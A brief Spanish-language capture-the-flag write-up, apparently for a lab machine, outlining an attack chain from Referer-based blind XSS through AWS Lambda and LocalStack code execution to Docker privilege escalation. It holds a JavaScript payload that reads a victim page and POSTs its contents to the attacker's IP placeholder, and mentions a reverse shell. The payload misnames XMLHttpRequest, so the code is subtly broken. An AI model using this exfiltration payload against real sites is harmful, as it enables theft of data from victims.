 ## Tecnicas utilizadas
- Virtual Hosting Enumeration  
- Referer XSS Injection  
- XSS - Creating JS file (accessing unauthorized resources)  
- Checking/Reading mail through XSS injection  
- AWS Enumeration  
- Lambda Enumeration  
- Creating a Lambda Function (NodeJS)  
- Invoking the created lambda function  
- RCE on LocalStack  
- Abusing FunctionName Parameter (AWS) by exploiting XSS vulnerability (RCE)  
- Finding and exploiting custom 0Day [Privilege Escalation]  
- Root FileSystem Access by abusing Docker
## Procedimiento
- Virtual Hosting 
- Vhost Discovery
- XSS blind injection 
- Js scripting ->
```js
var target = "$IpVictima";
var req1 = new XMLHttpResponse();
req1.open("GET", target, false);
req1.send();

var response = req1.responseText;

var req2 = new XMLHttpResponse();
req2.open("POST", "$MiIp", false);
req2.send(response);
```
- Leakeo de credenciales de AWS
- Creamos una funcion en lambda basandonos en la documentacion de AWS 
- Nos aprovechamos del CVE de RCE tomando como base el campo vulnerable a XSS, redirijimos a la victima al dashboard con la funcion ``Document.location="$web"``
- Establacemos una reverse shell atraves de la vulnerabilidad 
- Explotamos el "0day custom"
- aprovechamos docker para escalar privilegios